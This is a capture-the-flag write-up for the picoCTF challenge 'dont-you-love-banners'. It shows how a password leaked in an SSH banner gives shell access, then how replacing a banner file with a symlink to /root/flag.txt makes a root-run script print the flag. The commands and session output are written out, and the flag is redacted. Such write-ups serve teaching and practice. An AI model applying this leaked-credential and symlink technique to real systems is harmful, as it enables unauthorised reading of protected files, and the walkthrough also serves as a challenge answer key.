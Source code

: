 # PicoCTF - dont-you-love-banners

## Challenge Overview
**Title:** dont-you-love-banners  
**Category:** General Skills  
**Difficulty:** Medium  

## Description
Can you abuse the banner? The server has been leaking some crucial information on tethys.picoctf.net 61728. Use the leaked information to get to the server. To connect to the running application use nc tethys.picoctf.net 63661. From the above information abuse the machine and find the flag in the /root directory.

## Analysis
We are **provided** with two **links** to which we an `nc` to.

We try the **first** one which **leaks** critical information.
```
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```
This gives us the **password** `My_Passw@rd_@1234` which might be **useful** later on.

Trying the **second** link we get
```
*************************************
**************WELCOME****************
*************************************

what is the password? 
```
We **enter** the password `My_Passw@rd_@1234` we found above.  

```
...
what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
```
We are now **prompted** with a **question**.  
The **answer** to this is `DEF CON`.
```
...
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
```
This leads us to a **second** question.
The answer here is `John Draper`
```
...
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$
```
We have a **shell** now.

We know from the **description** of the challenge that the **flag** is inside `/root`.  
We can verify this by `ls /root`.
```
player@challenge:~$ ls /root
flag.txt  script.py
```
As you can imagine, we can't simply execute `cat /root/flag.txt`.

Inside the **current** directory we have
```
banner  text
```

We know the **challenge** has to do with **banners** from its title.  
The `banner` file has
```
*************************************
**************WELCOME****************
*************************************
```
This is the **same** banner we saw when we **connected** to the server.

My first **idea** was to **replace** the text in `banner` with `$(cat /root/flag/txt)`.  
But the banner is **printed** using `echo` which will **not** execute any **commands**.

Instead of **changing** the text inside `banner`, we have to make `banner` point to `flag.txt`.  
This can be done using a **symbolic link** or **symlink** for short.  
To do this, we will use the `ln` command which **creates** links with the `-s` or `--symbolic` flag
```
player@challenge:~$ rm banner
rm banner
player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
```
We **verify** the link creation using `ls -l`
```
player@challenge:~$ ls -l
ls -l
total 4
lrwxrwxrwx 1 player player 14 Jun 15 11:54 banner -> /root/flag.txt
-rw-r--r-- 1 root   root   13 Feb  7  2024 text
```
And it is correct, `banner` points to `/root/flag.txt`.

The **final** step is to **reconnect** to the server.
## Solution

- Connect to the **second** server 
- Enter `My_Passw@rd_@1234` when prompted for a **password**
- Enter `DEF CON` for the **first** question
- Enter `John Draper` for the **second** question
- Remove the `banner` using `rm banner`
- Create a **symlink** named `banner` using `ln -s /root/flag.txt banner`
- **Reconnect** to the server

### Execution Example:
```
$ nc tethys.picoctf.net 64800
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEF CON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ rm banner
rm banner
player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
player@challenge:~$ ^C
...
$ nc tethys.picoctf.net 64800
picoCTF{____REDACTED____}

what is the password? 
```